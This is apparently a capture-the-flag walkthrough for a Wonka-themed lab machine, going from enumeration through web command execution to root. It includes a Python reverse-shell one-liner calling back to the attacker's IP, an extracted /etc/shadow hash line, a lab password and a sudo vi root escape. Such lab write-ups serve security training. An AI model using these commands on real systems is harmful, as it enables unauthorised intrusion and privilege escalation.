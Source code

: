 ## Target IP: 10.10.59.223

---

### Environment Variables

```bash
export IP=10.10.59.223
export LIP=10.6.24.56
```

---

### Nmap Scan

```bash
sudo nmap -sC -sV -T4 -O $IP -oN nmap_scan.txt
```

**Open Ports:**

| Port | Service | Version |
| --- | --- | --- |
| 21 | FTP | vsftpd 3.0.3 |
| 80 | HTTP | Apache httpd 2.4.29 |
| 100+ | Various | See message below |

**Message on every port above 80:**

```
Small hint from Mr. Wonka: Look somewhere else, it's not here! ;)
Hope you won't drown Augustus
```

=> **Ignore all ports > 80**

---

## FTP Enumeration

```bash
ftp $IP
# Anonymous login: allowed
```

Found file: `gum_room.jpg`

Downloaded it and ran:

```bash
steghide info gum_room.jpg
```

→ Detected embedded file: `b64.txt`

→ No passphrase known, but `gum_room.jpg.out` exists and contains a **base64 dump**

Decoded → **Looks like `/etc/shadow` dump**

→ Only relevant line:

```
charlie:$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/...:18535:0:99999:7:::
```

---

## Web Enumeration

Visited: `http://$IP`

→ “Squirrel Room” login page

### Gobuster:

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://$IP -x txt,html,php -t 50
```

→ Found: `/home.php`

---

## Web Command Execution

Visited: `/home.php`

→ Input box executing system commands

Tried `ls`

→ Found files, served them over webserver, downloaded, nothing useful **except one:**

`validate.php` contains:

```php
$username = "charlie";
$password = "[REDACTED]";
```

---

## Web Login

Logged into `/` with:

- **Username:** charlie
- **Password:** cn7824

Redirected to `/home.php` (same as before)

---

## Shell Access

Set up Netcat listener:

```bash
nc -lvnp 8080
```

Executed reverse shell via web command injection:

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.24.56",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

→ Got shell

---

## Privilege Escalation: SSH Access

Found an **RSA private key** in Charlie's home directory

Copied it, set permissions:

```bash
chmod 600 rsa_key
ssh -i rsa_key charlie@$IP
```

→ **No passphrase** required

---

## User Flag

```bash
cat user.txt
# → flag{[REDACTED]}
```

---

## Sudo Privileges

```bash
sudo -l
# (ALL : !root) NOPASSWD: /usr/bin/vi
```

Same as a previous box — **vi bug allows root shell via UID -1 workaround**

```bash
sudo vi
:!/bin/bash
```

```bash
whoami
# → root
```

→ You're now root

---

## Root Flag (Crypto Locked)

Found: `root.py`

→ Asks for **passphrase**

Checked file from earlier: `key_rev_key`

Ran:

```bash
strings key_rev_key
```

Found key:

```
-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY=
```

Executed script:

```bash
python3 root.py
# Entered key when prompted
```

---

## Final Root Flag

```
flag{[REDACTED]}
```
